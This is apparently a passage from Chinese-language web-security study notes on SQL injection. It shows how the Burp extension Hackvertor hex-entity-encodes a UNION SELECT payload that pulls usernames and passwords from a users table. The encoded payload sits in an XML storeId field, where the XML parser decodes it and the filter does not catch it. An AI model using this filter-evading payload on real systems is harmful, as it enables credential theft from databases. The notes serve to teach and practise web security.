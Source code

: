 ### Hackvertor

```
<@hex_entities>1 union select username||':'||password from users</@hex_entities>
```

![image-20250521190741548](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250521190741548.png)

在示例中，攻击载荷 `<@hex_entities>1 union select username||':'||password from users</@hex_entities>` 被 Hackvertor 转换为十六进制实体编码。

XML 标准支持十六进制实体（`&#xHH;`），解析器会自动解码这些实体为原始字符。

最终载荷可能呈现为：

```
<storeId>&#x31;&#x20;&#x75;&#x6e;&#x69;&#x6f;&#x6e;&#x20;&#x73;&#x65;&#x6c;&#x65;&#x63;&#x74;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x7c;&#x7c;&#x27;&#x3a;&#x27;&#x7c;&#x7c;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x66;&#x72;&#x6f;&#x6d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;</storeId>
```

![image-20250521191303871](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250521191303871.png)